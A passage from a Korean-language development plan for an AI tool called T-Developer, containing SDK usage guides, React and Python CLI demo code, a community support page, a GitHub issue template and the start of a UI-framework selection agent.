  descriptions: descriptions.map((desc, i) => ({
    id: `batch_${i}`,
    description: desc,
    userId: 'user_123',
  })),
});

// Results are returned in the same order
results.forEach((result, index) => {
  console.log(`Project ${index + 1}: ${result.requirements.projectType}`);
});
```

### 4. Custom Processors

```typescript
// Register custom processors for domain-specific analysis
client.registerProcessor({
  name: 'healthcare-processor',
  process: async (input) => {
    // Custom healthcare-specific logic
    const healthcareTerms = extractHealthcareTerms(input);
    const complianceReqs = identifyComplianceRequirements(input);

    return {
      domainSpecific: {
        medicalTerms: healthcareTerms,
        compliance: complianceReqs,
        recommendations: getHealthcareRecommendations(input),
      },
    };
  },
});

// Use with domain hint
const result = await client.analyzeProjectDescription({
  description: 'Patient management system with EHR integration',
  userId: 'user_123',
  options: {
    processors: ['healthcare-processor'],
  },
});
```

## Best Practices

### 1. Input Quality

```typescript
// ❌ Poor input
"make app"

// ✅ Good input
"Build a task management web application with user authentication,
 team collaboration features, and real-time updates"

// ✅ Excellent input
`I need a project management platform with the following requirements:
 - User authentication (email and OAuth)
 - Project creation and task assignment
 - Real-time collaboration with WebSockets
 - File attachments (up to 100MB)
 - Email notifications
 - REST API for third-party integrations
 - Target: 1000 concurrent users
 - Tech preference: React frontend, Node.js backend`
```

### 2. Error Handling

```typescript
try {
  const result = await client.analyzeProjectDescription({
    description: userInput,
    userId: userId,
  });

  // Always check confidence score
  if (result.confidenceScore < 0.7) {
    console.warn('Low confidence analysis, consider clarifications');
  }
} catch (error) {
  if (error.code === 'RATE_LIMIT_EXCEEDED') {
    // Handle rate limiting
    const retryAfter = error.retryAfter;
    setTimeout(() => retryAnalysis(), retryAfter * 1000);
  } else if (error.code === 'INVALID_INPUT') {
    // Handle validation errors
    showValidationError(error.message);
  } else if (error.code === 'CLARIFICATION_TIMEOUT') {
    // Handle clarification timeout
    restartAnalysis();
  } else {
    // Generic error handling
    console.error('Unexpected error:', error);
    showGenericError();
  }
}
```

### 3. Performance Optimization

```typescript
// Use caching for repeated analyses
const cache = new Map();

async function analyzeWithCache(description, userId) {
  const cacheKey = `${userId}:${hashString(description)}`;

  // Check cache
  if (cache.has(cacheKey)) {
    const cached = cache.get(cacheKey);
    if (Date.now() - cached.timestamp < 3600000) {
      // 1 hour
      return cached.result;
    }
  }

  // Perform analysis
  const result = await client.analyzeProjectDescription({
    description,
    userId,
  });

  // Cache result
  cache.set(cacheKey, {
    result,
    timestamp: Date.now(),
  });

  return result;
}

// Use streaming for large inputs
const stream = client.streamAnalysis({
  description: veryLongDescription,
  userId: 'user_123',
});

stream.on('progress', (progress) => {
  updateProgressBar(progress.percentage);
});

stream.on('partial', (partial) => {
  // Show partial results as they become available
  updateUI(partial);
});

stream.on('complete', (result) => {
  // Final result
  displayFinalResult(result);
});
```

## Troubleshooting

### Common Issues

#### 1. Low Confidence Scores

**Problem**: Analysis returns confidence score < 0.5

**Solutions**:

```typescript
// Add more detail to the description
const improved = addProjectDetails(originalDescription, {
  features: ['list', 'of', 'features'],
  targetAudience: 'specific audience',
  technicalRequirements: ['performance', 'security'],
});

// Provide context
const result = await client.analyzeProjectDescription({
  description: improved,
  context: {
    projectType: 'web',
    industry: 'finance',
  },
});

// Use guided mode
const guided = await client.guidedAnalysis({
  userId: 'user_123',
  template: 'web_application',
});
```

#### 2. Timeout Errors

**Problem**: Analysis times out for complex descriptions

**Solutions**:

```typescript
// Increase timeout
const client = new NLInputClient({
  apiKey: 'your-key',
  timeout: 60000, // 60 seconds
});

// Use async processing for large inputs
const job = await client.submitAsyncAnalysis({
  description: complexDescription,
  userId: 'user_123',
});

// Poll for results
const result = await client.waitForAnalysis(job.jobId, {
  pollInterval: 2000,
  maxAttempts: 30,
});
```

#### 3. Clarification Loop

**Problem**: Too many clarification questions

**Solutions**:

```typescript
// Set clarification preferences
const result = await client.analyzeProjectDescription({
  description: userInput,
  userId: 'user_123',
  options: {
    maxClarificationRounds: 2,
    clarificationStrategy: 'essential_only',
  },
});

// Provide defaults for common clarifications
const result = await client.analyzeProjectDescription({
  description: userInput,
  userId: 'user_123',
  defaults: {
    projectType: 'web_application',
    scalability: 'medium',
    budget: 'standard',
  },
});
```

### Debug Mode

```typescript
// Enable debug mode for detailed logs
const client = new NLInputClient({
  apiKey: 'your-key',
  debug: true,
  logLevel: 'verbose',
});

client.on('debug', (log) => {
  console.log(`[${log.level}] ${log.message}`, log.data);
});

// Analyze with trace ID for debugging
const result = await client.analyzeProjectDescription({
  description: userInput,
  userId: 'user_123',
  options: {
    traceId: 'debug-trace-123',
  },
});

// Get detailed analysis breakdown
const debug = await client.getAnalysisDebugInfo(result.projectId);
console.log('Processing steps:', debug.steps);
console.log('Decision tree:', debug.decisions);
console.log('Confidence factors:', debug.confidenceFactors);
```

````

**검증 기준**:
- [ ] 포괄적인 개발자 가이드
- [ ] 실용적인 코드 예제
- [ ] 문제 해결 가이드
- [ ] 모범 사례 문서화

#### SubTask 4.10.3: 샘플 애플리케이션 및 데모
**담당자**: 개발자 애드보케이트
**예상 소요시간**: 14시간

**작업 내용**:
```typescript
// examples/react-nl-agent-demo/src/App.tsx
import React, { useState, useCallback } from 'react';
import { NLInputClient, useNLInput } from '@t-developer/nl-agent-sdk';
import {
  Container,
  TextField,
  Button,
  Paper,
  Typography,
  LinearProgress,
  Alert,
  Chip,
  Box,
  Stepper,
  Step,
  StepLabel,
  Card,
  CardContent
} from '@mui/material';

// NL Agent Demo Application
const NLAgentDemo: React.FC = () => {
  const [activeStep, setActiveStep] = useState(0);
  const [description, setDescription] = useState('');
  const [clarificationAnswers, setClarificationAnswers] = useState<Record<string, string>>({});

  const { analyze, loading, error, result, client } = useNLInput({
    apiUrl: process.env.REACT_APP_API_URL!,
    apiKey: process.env.REACT_APP_API_KEY!
  });

  const steps = ['Describe Project', 'Clarify Requirements', 'Review Analysis', 'Generate Project'];

  const handleAnalyze = useCallback(async () => {
    try {
      const analysisResult = await analyze(description, 'demo-user');

      if (analysisResult.clarificationNeeded) {
        setActiveStep(1);
      } else {
        setActiveStep(2);
      }
    } catch (err) {
      console.error('Analysis failed:', err);
    }
  }, [description, analyze]);

  const handleClarification = useCallback(async () => {
    if (!result?.sessionId) return;

    try {
      const clarifiedResult = await client.processClarification(
        result.sessionId,
        clarificationAnswers
      );

      if (!clarifiedResult.furtherClarificationNeeded) {
        setActiveStep(2);
      }
    } catch (err) {
      console.error('Clarification failed:', err);
    }
  }, [client, result, clarificationAnswers]);

  return (
    <Container maxWidth="lg" sx={{ py: 4 }}>
      <Typography variant="h3" component="h1" gutterBottom align="center">
        T-Developer NL Agent Demo
      </Typography>

      <Typography variant="subtitle1" align="center" color="text.secondary" paragraph>
        Describe your project in natural language and watch AI convert it to structured requirements
      </Typography>

      <Stepper activeStep={activeStep} sx={{ mb: 4 }}>
        {steps.map((label) => (
          <Step key={label}>
            <StepLabel>{label}</StepLabel>
          </Step>
        ))}
      </Stepper>

      {/* Step 1: Project Description */}
      {activeStep === 0 && (
        <Paper elevation={3} sx={{ p: 4 }}>
          <Typography variant="h5" gutterBottom>
            Describe Your Project
          </Typography>

          <TextField
            fullWidth
            multiline
            rows={6}
            variant="outlined"
            placeholder="Example: I need an e-commerce website with user authentication, product catalog, shopping cart, and payment integration using Stripe. It should support mobile devices and handle 10,000 concurrent users."
            value={description}
            onChange={(e) => setDescription(e.target.value)}
            sx={{ mb: 3 }}
          />

          <Box sx={{ mb: 2 }}>
            <Typography variant="subtitle2" gutterBottom>
              Try these examples:
            </Typography>
            <Box sx={{ display: 'flex', gap: 1, flexWrap: 'wrap' }}>
              {exampleDescriptions.map((example, index) => (
                <Chip
                  key={index}
                  label={example.label}
                  onClick={() => setDescription(example.description)}
                  clickable
                  color="primary"
                  variant="outlined"
                />
              ))}
            </Box>
          </Box>

          <Button
            variant="contained"
            size="large"
            onClick={handleAnalyze}
            disabled={loading || description.length < 10}
            fullWidth
          >
            {loading ? <CircularProgress size={24} /> : 'Analyze Description'}
          </Button>

          {error && (
            <Alert severity="error" sx={{ mt: 2 }}>
              {error.message}
            </Alert>
          )}
        </Paper>
      )}

      {/* Step 2: Clarification */}
      {activeStep === 1 && result?.clarificationQuestions && (
        <Paper elevation={3} sx={{ p: 4 }}>
          <Typography variant="h5" gutterBottom>
            Help Us Understand Better
          </Typography>

          <Typography variant="body1" paragraph>
            Your description needs some clarification. Please answer these questions:
          </Typography>

          {result.clarificationQuestions.map((question) => (
            <ClarificationQuestion
              key={question.id}
              question={question}
              value={clarificationAnswers[question.id] || ''}
              onChange={(value) =>
                setClarificationAnswers(prev => ({
                  ...prev,
                  [question.id]: value
                }))
              }
            />
          ))}

          <Box sx={{ display: 'flex', gap: 2, mt: 3 }}>
            <Button
              variant="outlined"
              onClick={() => setActiveStep(0)}
            >
              Back
            </Button>
            <Button
              variant="contained"
              onClick={handleClarification}
              disabled={loading}
              sx={{ flex: 1 }}
            >
              Submit Answers
            </Button>
          </Box>
        </Paper>
      )}

      {/* Step 3: Analysis Results */}
      {activeStep === 2 && result?.requirements && (
        <Box sx={{ display: 'grid', gap: 3 }}>
          <AnalysisOverview requirements={result.requirements} />
          <TechnicalRequirements requirements={result.requirements.technicalRequirements} />
          <TechnologyStack stack={result.requirements.technologyPreferences} />
          <NonFunctionalRequirements nfrs={result.requirements.nonFunctionalRequirements} />

          <Box sx={{ display: 'flex', gap: 2 }}>
            <Button
              variant="outlined"
              onClick={() => {
                setActiveStep(0);
                setDescription('');
                setClarificationAnswers({});
              }}
            >
              Start Over
            </Button>
            <Button
              variant="contained"
              color="success"
              onClick={() => setActiveStep(3)}
              sx={{ flex: 1 }}
            >
              Generate Project
            </Button>
          </Box>
        </Box>
      )}

      {/* Step 4: Project Generation */}
      {activeStep === 3 && (
        <ProjectGenerationDemo requirements={result?.requirements} />
      )}
    </Container>
  );
};

// Example descriptions for demo
const exampleDescriptions = [
  {
    label: "E-commerce Platform",
    description: "Build a modern e-commerce platform with product catalog, user authentication, shopping cart, payment processing with Stripe, order management, and admin dashboard. Should support 10,000 concurrent users."
  },
  {
    label: "Social Media App",
    description: "Create a social media mobile app with user profiles, photo/video sharing, real-time messaging, news feed with ML-based recommendations, and live streaming capabilities."
  },
  {
    label: "Project Management Tool",
    description: "Develop a project management web application with task tracking, team collaboration, Gantt charts, time tracking, resource allocation, and integration with Slack and Jira."
  }
];

// Clarification Question Component
const ClarificationQuestion: React.FC<{
  question: any;
  value: string;
  onChange: (value: string) => void;
}> = ({ question, value, onChange }) => {
  return (
    <Card sx={{ mb: 2 }}>
      <CardContent>
        <Typography variant="h6" gutterBottom>
          {question.question}
        </Typography>

        {question.options ? (
          <Box sx={{ display: 'flex', gap: 1, flexWrap: 'wrap' }}>
            {question.options.map((option: string) => (
              <Chip
                key={option}
                label={option}
                onClick={() => onChange(option)}
                color={value === option ? "primary" : "default"}
                variant={value === option ? "filled" : "outlined"}
              />
            ))}
          </Box>
        ) : (
          <TextField
            fullWidth
            variant="outlined"
            value={value}
            onChange={(e) => onChange(e.target.value)}
            placeholder="Type your answer..."
          />
        )}

        {question.required && (
          <Typography variant="caption" color="error" sx={{ mt: 1 }}>
            * Required
          </Typography>
        )}
      </CardContent>
    </Card>
  );
};

// Analysis Overview Component
const AnalysisOverview: React.FC<{ requirements: any }> = ({ requirements }) => {
  return (
    <Paper elevation={3} sx={{ p: 3 }}>
      <Typography variant="h5" gutterBottom>
        Project Analysis Overview
      </Typography>

      <Box sx={{ display: 'grid', gridTemplateColumns: 'repeat(auto-fit, minmax(200px, 1fr))', gap: 2 }}>
        <MetricCard
          title="Project Type"
          value={requirements.projectType.replace(/_/g, ' ')}
          icon="🚀"
        />
        <MetricCard
          title="Confidence Score"
          value={`${(requirements.confidenceScore * 100).toFixed(0)}%`}
          icon="📊"
        />
        <MetricCard
          title="Requirements"
          value={requirements.technicalRequirements.length}
          icon="📋"
        />
        <MetricCard
          title="Technologies"
          value={Object.values(requirements.technologyPreferences).flat().length}
          icon="🛠️"
        />
      </Box>
    </Paper>
  );
};

// Metric Card Component
const MetricCard: React.FC<{
  title: string;
  value: string | number;
  icon: string;
}> = ({ title, value, icon }) => {
  return (
    <Card>
      <CardContent sx={{ textAlign: 'center' }}>
        <Typography variant="h2">{icon}</Typography>
        <Typography variant="h4" color="primary">
          {value}
        </Typography>
        <Typography variant="subtitle2" color="text.secondary">
          {title}
        </Typography>
      </CardContent>
    </Card>
  );
};

export default NLAgentDemo;
````

```python
# examples/python-cli-demo/nl_agent_cli.py
#!/usr/bin/env python3
"""
T-Developer NL Agent CLI Demo

A command-line interface demonstrating the NL Agent capabilities.
"""

import click
import asyncio
from rich.console import Console
from rich.table import Table
from rich.progress import Progress, SpinnerColumn, TextColumn
from rich.panel import Panel
from rich.markdown import Markdown
from rich.prompt import Prompt, Confirm
import json
from t_developer_nl_agent import NLAgentClient

console = Console()

class NLAgentCLI:
    def __init__(self, api_key: str):
        self.client = NLAgentClient(api_key)
        self.session_data = {}

    async def analyze_interactive(self):
        """Interactive analysis flow"""

        console.print(Panel.fit(
            "[bold cyan]T-Developer NL Agent CLI[/bold cyan]\n"
            "Describe your project in natural language",
            title="Welcome"
        ))

        # Get project description
        description = Prompt.ask(
            "\n[yellow]Describe your project[/yellow]",
            default="I need a web application..."
        )

        # Show analysis progress
        with Progress(
            SpinnerColumn(),
            TextColumn("[progress.description]{task.description}"),
            transient=True,
        ) as progress:
            task = progress.add_task("Analyzing project description...", total=None)

            result = await self.client.analyze_description(
                description=description,
                user_id="cli-demo-user"
            )

            progress.update(task, completed=100)

        # Store session data
        self.session_data = result

        # Handle clarifications if needed
        if result.get("clarification_needed"):
            await self.handle_clarifications(result)
        else:
            await self.display_results(result["requirements"])

    async def handle_clarifications(self, result):
        """Handle clarification questions"""

        console.print("\n[yellow]I need some clarification:[/yellow]\n")

        answers = {}
        for question in result["clarification_questions"]:
            console.print(f"[bold]{question['question']}[/bold]")

            if question.get("options"):
                # Multiple choice
                for i, option in enumerate(question["options"], 1):
                    console.print(f"  {i}. {option}")

                choice = Prompt.ask(
                    "Select an option",
                    choices=[str(i) for i in range(1, len(question["options"]) + 1)]
                )
                answers[question["id"]] = question["options"][int(choice) - 1]
            else:
                # Free text
                answers[question["id"]] = Prompt.ask("Your answer")

            console.print()

        # Process clarifications
        with Progress(
            SpinnerColumn(),
            TextColumn("[progress.description]{task.description}"),
            transient=True,
        ) as progress:
            task = progress.add_task("Processing clarifications...", total=None)

            clarified_result = await self.client.process_clarification(
                session_id=result["session_id"],
                answers=answers
            )

            progress.update(task, completed=100)

        await self.display_results(clarified_result["updated_requirements"])

    async def display_results(self, requirements):
        """Display analysis results"""

        console.print("\n[bold green]✓ Analysis Complete![/bold green]\n")

        # Project Overview
        overview_table = Table(title="Project Overview", show_header=False)
        overview_table.add_column("Property", style="cyan")
        overview_table.add_column("Value", style="white")

        overview_table.add_row("Project Type", requirements["project_type"])
        overview_table.add_row("Confidence Score", f"{requirements['confidence_score']:.2%}")
        overview_table.add_row("Requirements Count", str(len(requirements["technical_requirements"])))

        console.print(overview_table)

        # Technical Requirements
        if requirements["technical_requirements"]:
            console.print("\n[bold]Technical Requirements:[/bold]")
            req_table = Table()
            req_table.add_column("ID", style="dim")
            req_table.add_column("Description")
            req_table.add_column("Priority", justify="center")
            req_table.add_column("Category")

            for req in requirements["technical_requirements"]:
                priority_color = {
                    "high": "red",
                    "medium": "yellow",
                    "low": "green"
                }.get(req["priority"], "white")

                req_table.add_row(
                    req["id"],
                    req["description"],
                    f"[{priority_color}]{req['priority']}[/{priority_color}]",
                    req["category"]
                )

            console.print(req_table)

        # Technology Stack
        if requirements["technology_preferences"]:
            console.print("\n[bold]Recommended Technology Stack:[/bold]")
            tech_table = Table()
            tech_table.add_column("Layer", style="cyan")
            tech_table.add_column("Technologies")

            for layer, techs in requirements["technology_preferences"].items():
                tech_table.add_row(
                    layer.title(),
                    ", ".join(techs) if isinstance(techs, list) else str(techs)
                )

            console.print(tech_table)

        # Non-functional Requirements
        if requirements.get("non_functional_requirements"):
            console.print("\n[bold]Non-functional Requirements:[/bold]")
            for nfr in requirements["non_functional_requirements"]:
                console.print(f"• {nfr['type']}: {nfr['description']}")

        # Export options
        if Confirm.ask("\n[yellow]Export results to file?[/yellow]"):
            filename = Prompt.ask("Filename", default="project_requirements.json")

            with open(filename, 'w') as f:
                json.dump(requirements, f, indent=2)

            console.print(f"[green]✓ Exported to {filename}[/green]")

        # Generate project
        if Confirm.ask("\n[yellow]Generate project scaffold?[/yellow]"):
            await self.generate_project(requirements)

    async def generate_project(self, requirements):
        """Generate project based on requirements"""

        console.print("\n[bold]Generating Project Structure...[/bold]\n")

        # This would integrate with the project generation agent
        project_structure = {
            "name": "my-project",
            "type": requirements["project_type"],
            "structure": {
                "src/": ["index.js", "app.js"],
                "tests/": ["app.test.js"],
                "docs/": ["README.md", "API.md"],
                "config/": ["config.js"],
                ".gitignore": None,
                "package.json": None,
                "Dockerfile": None
            }
        }

        # Display generated structure
        console.print("[green]Generated project structure:[/green]")
        for path, files in project_structure["structure"].items():
            console.print(f"  📁 {path}")
            if files:
                for file in files:
                    console.print(f"    📄 {file}")

@click.command()
@click.option('--api-key', envvar='NL_AGENT_API_KEY', help='API key for NL Agent')
@click.option('--mode', type=click.Choice(['interactive', 'batch', 'demo']), default='interactive')
@click.option('--input-file', type=click.File('r'), help='Input file for batch mode')
@click.option('--output-file', type=click.File('w'), help='Output file for results')
def main(api_key, mode, input_file, output_file):
    """T-Developer NL Agent CLI Demo"""

    if not api_key:
        console.print("[red]Error: API key required. Set NL_AGENT_API_KEY or use --api-key[/red]")
        return

    cli = NLAgentCLI(api_key)

    if mode == 'interactive':
        asyncio.run(cli.analyze_interactive())
    elif mode == 'batch' and input_file:
        # Batch processing mode
        asyncio.run(cli.process_batch(input_file, output_file))
    elif mode == 'demo':
        # Demo mode with predefined examples
        asyncio.run(cli.run_demo())
    else:
        console.print("[red]Invalid mode or missing input file[/red]")

if __name__ == '__main__':
    main()
```

**검증 기준**:

- [ ] React 웹 애플리케이션 데모
- [ ] Python CLI 데모
- [ ] 인터랙티브 예제
- [ ] 실제 사용 사례 시연

#### SubTask 4.10.4: 커뮤니티 및 지원 체계

**담당자**: 개발자 관계 매니저  
**예상 소요시간**: 8시간

**작업 내용**:

```markdown
# backend/docs/community/nl-agent-community.md

# NL Agent Community & Support

## Community Resources

### 1. Discord Server

Join our active Discord community for real-time support and discussions.

**Server: [discord.gg/t-developer](https://discord.gg/t-developer)**

Channels:

- `#nl-agent-general` - General discussions
- `#nl-agent-help` - Get help with integration
- `#nl-agent-showcase` - Share your projects
- `#nl-agent-feedback` - Feature requests and feedback
- `#nl-agent-announcements` - Updates and releases

### 2. GitHub Repository

Contribute to the SDK and report issues.

**Repository: [github.com/t-developer/nl-agent-sdk](https://github.com/t-developer/nl-agent-sdk)**

- [Issues](https://github.com/t-developer/nl-agent-sdk/issues) - Report bugs and request features
- [Discussions](https://github.com/t-developer/nl-agent-sdk/discussions) - Community discussions
- [Wiki](https://github.com/t-developer/nl-agent-sdk/wiki) - Community-maintained documentation
- [Contributing Guide](https://github.com/t-developer/nl-agent-sdk/blob/main/CONTRIBUTING.md)

### 3. Stack Overflow

Ask and answer technical questions.

**Tag: [`t-developer-nl-agent`](https://stackoverflow.com/questions/tagged/t-developer-nl-agent)**

Example question format:
```

Title: How to handle timeout errors in NL Agent batch processing?

Tags: t-developer-nl-agent, javascript, async

I'm using the T-Developer NL Agent SDK version 1.2.3 and encountering
timeout errors when processing multiple descriptions...

[Include code example]
[Include error message]
[Include what you've tried]

````

### 4. Community Forum
Deep discussions and knowledge sharing.

**Forum: [community.t-developer.com/nl-agent](https://community.t-developer.com/nl-agent)**

Categories:
- Tutorials & Guides
- Integration Examples
- Performance Optimization
- Feature Discussions
- Show & Tell

## Support Channels

### 1. Documentation & Self-Service

#### Official Documentation
- [API Reference](https://docs.t-developer.com/nl-agent/api)
- [Integration Guides](https://docs.t-developer.com/nl-agent/guides)
- [Examples](https://docs.t-developer.com/nl-agent/examples)
- [FAQ](https://docs.t-developer.com/nl-agent/faq)

#### Video Tutorials
- [Getting Started (YouTube)](https://youtube.com/t-developer/nl-agent-intro)
- [Advanced Features (YouTube)](https://youtube.com/t-developer/nl-agent-advanced)
- [Webinar Recordings](https://t-developer.com/webinars/nl-agent)

### 2. Technical Support

#### Free Support
- Community Discord (#nl-agent-help)
- GitHub Issues
- Stack Overflow
- Community Forum

**Response Time**: Community-driven, typically 24-48 hours

#### Pro Support
Available for Pro and Enterprise customers.

- Dedicated Slack channel
- Email support: nl-support@t-developer.com
- Priority issue handling
- Direct access to engineering team

**Response Time**:
- Pro: 24 hours
- Enterprise: 4 hours (business hours)

#### Enterprise Support
- Dedicated support engineer
- Custom integration assistance
- Performance optimization consulting
- Training sessions
- SLA guarantees

**Contact**: enterprise@t-developer.com

### 3. Office Hours

**Weekly Office Hours**
Every Thursday at 2 PM PST / 5 PM EST / 10 PM GMT

- Live Q&A with the NL Agent team
- Demo of new features
- Community showcase
- Troubleshooting help

**Join**: [meet.t-developer.com/nl-agent-office-hours](https://meet.t-developer.com/nl-agent-office-hours)

## Contributing

### Ways to Contribute

#### 1. Code Contributions
```bash
# Fork and clone the repository
git clone https://github.com/YOUR_USERNAME/nl-agent-sdk.git
cd nl-agent-sdk

# Create a feature branch
git checkout -b feature/your-feature-name

# Make your changes and test
npm test

# Submit a pull request
````

#### 2. Documentation

- Fix typos and improve clarity
- Add examples and use cases
- Translate documentation
- Write tutorials and guides

#### 3. Community Support

- Answer questions on Discord/Forum
- Share your integration experiences
- Create video tutorials
- Write blog posts

#### 4. Bug Reports & Feature Requests

Use our issue templates on GitHub:

- [Bug Report Template](.github/ISSUE_TEMPLATE/bug_report.md)
- [Feature Request Template](.github/ISSUE_TEMPLATE/feature_request.md)

### Recognition Program

#### Community Champions

Active contributors receive:

- Special Discord role and badge
- Early access to new features
- Monthly swag packages
- Annual conference tickets
- Direct line to product team

#### Hall of Fame

Top contributors featured on our website and documentation.

Current Champions:

- @developer1 - 50+ answered questions
- @developer2 - Major performance optimization
- @developer3 - Comprehensive Python tutorials

## Events & Meetups

### 1. Annual Conference

**T-Developer Summit**

- Date: October 15-17, 2024
- Location: San Francisco + Virtual
- NL Agent track with workshops

### 2. Monthly Meetups

Virtual meetups every first Tuesday:

- Feature deep dives
- Use case presentations
- Q&A sessions
- Networking

### 3. Hackathons

Quarterly hackathons with prizes:

- Best NL Agent Integration
- Most Creative Use Case
- Performance Innovation

## Resources

### 1. Starter Kits

- [React Starter](https://github.com/t-developer/nl-agent-react-starter)
- [Node.js Starter](https://github.com/t-developer/nl-agent-node-starter)
- [Python Starter](https://github.com/t-developer/nl-agent-python-starter)

### 2. Plugins & Extensions

- [VS Code Extension](https://marketplace.visualstudio.com/items?itemName=t-developer.nl-agent)
- [Chrome DevTools Extension](https://chrome.google.com/webstore/detail/nl-agent-devtools)
- [Postman Collection](https://www.postman.com/t-developer/workspace/nl-agent)

### 3. Third-party Libraries

Community-maintained integrations:

- [nl-agent-ruby](https://rubygems.org/gems/nl-agent-ruby) - Ruby SDK
- [nl-agent-go](https://pkg.go.dev/github.com/community/nl-agent-go) - Go SDK
- [nl-agent-rust](https://crates.io/crates/nl-agent-rust) - Rust SDK

## Stay Updated

### 1. Newsletter

Monthly updates on features, tips, and community highlights.

**Subscribe**: [t-developer.com/nl-agent/newsletter](https://t-developer.com/nl-agent/newsletter)

### 2. Social Media

- Twitter: [@TDeveloperAI](https://twitter.com/TDeveloperAI)
- LinkedIn: [T-Developer](https://linkedin.com/company/t-developer)
- Dev.to: [t-developer](https://dev.to/t-developer)

### 3. RSS/Atom Feeds

- [Product Updates](https://t-developer.com/nl-agent/feed.xml)
- [Blog Posts](https://blog.t-developer.com/nl-agent/feed.xml)
- [Community Posts](https://community.t-developer.com/nl-agent/feed.xml)

## Code of Conduct

We are committed to providing a welcoming and inclusive community.

### Our Standards

- Be respectful and inclusive
- Welcome newcomers and help them learn
- Accept constructive criticism gracefully
- Focus on what's best for the community
- Show empathy towards others

### Reporting Issues

Report violations to: conduct@t-developer.com

Full Code of Conduct: [t-developer.com/code-of-conduct](https://t-developer.com/code-of-conduct)

````

```yaml
# .github/ISSUE_TEMPLATE/bug_report.yml
name: Bug Report
description: Report a bug in the NL Agent
title: "[BUG] "
labels: ["bug", "needs-triage"]
assignees:
  - nl-agent-team

body:
  - type: markdown
    attributes:
      value: |
        Thanks for taking the time to report a bug! Please fill out the information below.

  - type: textarea
    id: description
    attributes:
      label: Bug Description
      description: A clear and concise description of the bug
      placeholder: The NL Agent fails to analyze descriptions containing...
    validations:
      required: true

  - type: textarea
    id: reproduction
    attributes:
      label: Steps to Reproduce
      description: Steps to reproduce the behavior
      value: |
        1. Initialize client with...
        2. Call analyze with...
        3. See error...
    validations:
      required: true

  - type: textarea
    id: expected
    attributes:
      label: Expected Behavior
      description: What you expected to happen
    validations:
      required: true

  - type: textarea
    id: actual
    attributes:
      label: Actual Behavior
      description: What actually happened
    validations:
      required: true

  - type: dropdown
    id: sdk-version
    attributes:
      label: SDK Version
      options:
        - 1.0.0
        - 1.1.0
        - 1.2.0
        - 1.2.1
        - 1.2.2
        - 1.2.3 (latest)
    validations:
      required: true

  - type: dropdown
    id: language
    attributes:
      label: Programming Language
      options:
        - JavaScript/TypeScript
        - Python
        - Java
        - C#
        - Other
    validations:
      required: true

  - type: textarea
    id: code-sample
    attributes:
      label: Code Sample
      description: Minimal code to reproduce the issue
      render: javascript
      placeholder: |
        const client = new NLInputClient({...});
        const result = await client.analyze({...});

  - type: textarea
    id: error-logs
    attributes:
      label: Error Logs
      description: Any error messages or logs
      render: shell

  - type: checkboxes
    id: terms
    attributes:
      label: Checklist
      options:
        - label: I have searched existing issues
          required: true
        - label: I have read the documentation
          required: true
        - label: I am using the latest SDK version
          required: false
````

**검증 기준**:

- [ ] 활발한 커뮤니티 플랫폼
- [ ] 다단계 지원 체계
- [ ] 기여자 인센티브 프로그램
- [ ] 정기적인 커뮤니티 이벤트

---

# Phase 4: 9개 핵심 에이전트 구현 - Part 6 (Tasks 4.11-4.12)

## 2. UI Selection Agent (UI 프레임워크 선택 에이전트)

### Task 4.11: UI Selection Agent 코어 구현

#### SubTask 4.11.1: UI 프레임워크 분석 엔진

**담당자**: 프론트엔드 아키텍트  
**예상 소요시간**: 14시간

**작업 내용**:

```python
# backend/src/agents/implementations/ui_selection_agent.py
from typing import Dict, List, Optional, Tuple, Any
from dataclasses import dataclass
from enum import Enum
import asyncio
from agno.agent import Agent
from agno.models.aws import AwsBedrock

@dataclass
class UIFrameworkRecommendation:
    framework: str
    confidence_score: float
    reasons: List[str]
    pros: List[str]
    cons: List[str]
    alternatives: List[Dict[str, Any]]
    setup_complexity: str  # 'low', 'medium', 'high'
    learning_curve: str    # 'easy', 'moderate', 'steep'
    community_support: str # 'excellent', 'good', 'fair'
    performance_score: float
    seo_friendliness: float
    mobile_readiness: float
    ecosystem_maturity: float

class ProjectType(Enum):
    SPA = "single_page_application"
    MPA = "multi_page_application"
    SSG = "static_site_generation"
    SSR = "server_side_rendering"
    PWA = "progressive_web_app"
    HYBRID = "hybrid_application"

class UISelectionAgent:
    """프로젝트 요구사항에 따른 최적의 UI 프레임워크 선택"""

    FRAMEWORK_MATRIX = {
        'react': {
            'type': ['spa', 'ssr', 'ssg', 'pwa'],
            'ecosystem': 'excellent',
            'performance': 'good',
            'seo': 'moderate',
            'mobile': 'react-native',
            'learning_curve': 'moderate',
            'use_cases': ['complex_spa', 'dashboard', 'real_time', 'enterprise'],
            'strengths': ['component_reusability', 'ecosystem', 'flexibility', 'community'],
            'weaknesses': ['learning_curve', 'boilerplate', 'decision_fatigue']
        },
        'nextjs': {
            'type': ['ssr', 'ssg', 'spa', 'pwa'],
            'ecosystem': 'excellent',
            'performance': 'excellent',
            'seo': 'excellent',
            'mobile': 'responsive',
            'learning_curve': 'moderate',
            'use_cases': ['seo_critical', 'ecommerce', 'blog', 'marketing', 'saas'],
            'strengths': ['seo', 'performance', 'dx', 'full_stack'],
            'weaknesses': ['vendor_lock', 'complexity', 'opinionated']
        },
        'vue': {
            'type': ['spa', 'ssr', 'pwa'],
            'ecosystem': 'good',
            'performance': 'excellent',
            'seo': 'good',
            'mobile': 'responsive',
            'learning_curve': 'easy',
            'use_cases': ['rapid_prototype', 'small_medium', 'incremental', 'interactive'],
            'strengths': ['gentle_learning', 'flexibility', 'performance', 'documentation'],
            'weaknesses': ['smaller_ecosystem', 'enterprise_adoption', 'scaling_concerns']
        },
        'angular': {
            'type': ['spa', 'pwa', 'enterprise'],
            'ecosystem': 'good',
            'performance': 'good',
            'seo': 'moderate',
            'mobile': 'ionic',
            'learning_curve': 'steep',
            'use_cases': ['enterprise', 'large_team', 'complex_forms', 'long_term'],
            'strengths': ['typescript', 'structure', 'tooling', 'enterprise_ready'],
            'weaknesses': ['complexity', 'bundle_size', 'learning_curve', 'verbose']
        },
        'svelte': {
            'type': ['spa', 'ssg', 'pwa'],
            'ecosystem': 'growing',
            'performance': 'excellent',
            'seo': 'good',
            'mobile': 'responsive',
            'learning_curve': 'easy',
            'use_cases': ['performance_critical', 'small_bundle', 'innovative', 'interactive'],
            'strengths': ['performance', 'simplicity', 'no_virtual_dom', 'compile_time'],
            'weaknesses': ['ecosystem', 'job_market', 'enterprise_adoption', 'tooling']
        },
        'solidjs': {
            'type': ['spa', 'pwa'],
            'ecosystem': 'emerging',
            'performance': 'excellent',
            'seo': 'moderate',
            'mobile': 'responsive',
            'learning_curve': 'moderate',
            'use_cases': ['performance_critical', 'real_time', 'interactive'],
